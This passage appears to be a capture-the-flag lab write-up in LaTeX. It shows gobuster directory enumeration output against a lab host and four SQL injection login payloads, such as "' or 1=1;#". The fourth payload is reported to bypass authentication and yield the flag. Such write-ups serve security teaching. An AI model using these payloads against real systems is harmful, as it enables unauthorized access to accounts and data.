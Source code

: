 \documentclass[conference]{IEEEtran}
\begin{document}
\begin{scriptsize}
\begin{verbatim}
root@ghost:~# gobuster dir --url http://10.129.105.150/ --wordlist
{path/to/directory}/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.105.150/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                {path/to/directory}/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://10.129.105.150/images/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.105.150/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.105.150/js/]
/vendor               (Status: 301) [Size: 315] [--> http://10.129.105.150/vendor/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.105.150/fonts/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
\end{verbatim}
\end{scriptsize}


The discovered directories did not show us anything interesting. So, now we can do some input validation testing, to see if we get any weird behavior when we enter special characters in the username section.


\begin{scriptsize}
\begin{verbatim}
1) ' or 1=1;
2) ';
3) ' AND 1=1;
4) ' or 1=1;#
\end{verbatim}
\end{scriptsize}

We find that 4) works, and we are able to bypass the login page via a SQl injection. \footnote{Note: One must enter a password in combination to the special characters to go through the login page.}



\begin{figure}[htb]
\includegraphics[scale=0.3]{flag.png}
\centering
\end{figure}
\end{document}
